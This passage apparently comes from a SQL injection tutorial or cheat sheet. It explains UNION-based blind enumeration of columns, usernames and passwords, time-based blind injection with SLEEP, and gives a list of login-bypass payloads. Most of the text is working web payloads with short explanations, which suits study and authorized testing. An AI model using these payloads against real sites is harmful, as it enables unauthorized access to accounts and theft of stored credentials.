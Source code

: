 ```SQL
0' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='dbhacked' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

Supposed you found column \[username] and \[password] then to dump them use below payload to find the users

```SQL
0' UNION SELECT 1,2,3 from users where username like 'a%
```

Suppose you found a username called \[admin] then use the below to dump its password.

```SQL
0' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

#### Time-based SQL Injection - Blind

In the time based, we rely on the time the webserver takes to send a response back to us. We can define a number of seconds in the SQL query that if the server takes the same time to respond, we conclude that it's vulnerable to SQL injection. Take the same URL

```
http://domain.com/profile?id=1
```

As you know first we aim to find the number of columns. Then an example payload is the one below

```SQL
0' UNION SELECT SLEEP(5),2;--
```

If the above one took 5 seconds of the webserver to response, we knew then we have two columns. This means your criteria of a correct query is the time you defined with the \[sleep] function. #Example2

```SQL
SELECT * from users where username="natas18" and password like binary '9%' and sleep(10) #
```

#### SQL Injection in Login forms

When it comes to login forms, we can try the following SQL payloads manually first in the username or password field or both together. The objective is to login as admin to the site.

```
root' or 1=1##

' or 1=1-- -;

" OR "1"="1

' or 1=1 -- #

1' or '1'='1

' or 1=1;-- -

' or ''='

' or 1--

') or true--

" or true--

") or true--

')) or true—

```